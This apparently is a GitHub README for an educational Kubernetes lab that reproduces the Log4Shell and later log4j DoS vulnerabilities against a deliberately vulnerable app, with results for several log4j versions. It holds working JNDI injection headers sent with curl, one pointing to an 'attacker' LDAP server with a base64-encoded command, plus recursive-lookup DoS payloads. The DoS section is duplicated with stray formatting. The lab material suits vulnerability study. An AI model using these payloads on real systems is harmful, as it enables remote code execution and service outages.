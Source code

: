 # Showcase log4j vulnerability

**Updates**
- 2021-12-20: added working exampele for DoS based on log4j 2.16.0

This repo is for educational purposes. I do neither endorse nor encourage any mailicious use of this repo. It requires a Kubernetes environment to run the app and the tests.

Credits go to Eden Federman and Christophe Tafani-Dereeper, Tejas Nagchandi their repos/posts gave me the inspiration and motivation for testing.

- https://medium.com/@edeNFed/patching-log4shell-in-one-command-without-downtime-using-ephemeral-containers-c69a9155ab1e
- https://github.com/christophetd/log4shell-vulnerable-app.git
- https://github.com/tejas-nagchandi/CVE-2021-45105

`modified-files` contains the different changes for building the springboot app with different versions of log4j and different settings. You can apply these to your copy of `https://github.com/christophetd/log4shell-vulnerable-app.git` and `https://github.com/tejas-nagchandi/CVE-2021-45105`, or use the images I have built for each step, as described in `ops/manifests/deployment.yaml`

## Install

1. `kubectl create ns log4jpoc`
1. `kubectl -n log4jpoc apply -f ops/manifests`

and check the status: `kubectl -n log4jpoc get pods`

## Run the ldap attack

1. Run a curl container (as a replacement for a remote attacker): `kubectl -n log4jpoc run --rm -it client --image=curlimages/curl -- /bin/sh` 
1. Run the curl-command: `curl http://vulnerable-app:8080 -H 'X-Api-Version: ${jndi:ldap://attacker:1389/Basic/Command/Base64/cGtpbGwgamF2YQo=}'`

## Run the DoS attack (log4j 2.14)

1. Run a curl container (as a replacement for a remote attacker): `kubectl -n log4jpoc run --rm -it client --image=curlimages/curl -- /bin/sh` 
1. `curl http://vulnerable-app:8080 -H 'X-Api-Version: ${${::-${::-$${::-j}}}}'`

## Run the DoS attack (log4j 2.16)

1. Run a curl container (as a replacement for a remote attacker): `kubectl -n log4jpoc run --rm -it client --image=curlimages/curl -- /bin/sh` 
1. `## Run the DoS attack (log4j 2.16)

1. Run a curl container (as a replacement for a remote attacker): `kubectl -n log4jpoc run --rm -it client --image=curlimages/curl -- /bin/sh` 
1. `curl http://vulnerable-app:8080 -H 'X-Api-Version: ${${::-${::-$${::-j}}}}'`
`


## Results 

### With log4j 2.14.1

Applying the ldap attack causes the pod to crash:

```
$ kubectl -n pwnd get pods
NAME             READY   STATUS    RESTARTS   AGE
attacker         1/1     Running   0          13h
client           1/1     Running   0          58s
vulnerable-app   0/1     Error     1          12h
```

Applying the second attack causes an infinite loop:

```
2021-12-19 10:48:33,685 http-nio-8080-exec-1 ERROR An exception occurred processing Appender Console java.lang.IllegalStateException: Infinite loop in property interpolation of ::-${::-$${::-j}}: :
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.checkCyclicSubstitution(StrSubstitutor.java:1081)
```

### With log4j 2.16.0

Applying the ldap attack does not break the app anymore:

```
$ kubectl -n pwnd get pods
NAME             READY   STATUS    RESTARTS       AGE
attacker         1/1     Running   0              13h
vulnerable-app   1/1     Running   1 (114s ago)   10m
client           1/1     Running   0              92s
```

See here for more details: https://issues.apache.org/jira/plugins/servlet/mobile#issue/LOG4J2-3230

This attack needs to be run against the docker image built from this repo: `https://github.com/tejas-nagchandi/CVE-2021-45105`
### With log4j 2.17.0
